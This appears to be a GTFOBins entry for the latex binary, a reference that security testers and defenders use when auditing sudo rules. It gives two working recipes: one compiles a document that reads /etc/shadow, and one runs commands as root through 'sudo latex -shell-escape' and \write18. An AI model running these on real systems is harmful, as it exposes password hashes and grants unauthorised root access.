 description: `latex` is a symbolic link to [`pdftex`](/gtfobins/pdftex/). However the program does not have the same behaviour regarding the name of argv[0]. This is the same behaviour for [`xetex`](/gtfobins/xetex/)/[`xelatex`](/gtfobins/xelatex/).
functions:
  file-read:
    - code: |
        echo "\documentclass[12pt]{article} \usepackage{verbatim} \begin{document} \verbatiminput{/etc/shadow} \end{document}" > read.tex
        latex read.tex
        strings read.dvi
  sudo:
    - code: |
        echo "\documentclass[12pt]{article} \begin{document} \immediate\write18{/usr/bin/whoami} \end{document}" > file.tex
        sudo latex -shell-escape file.tex
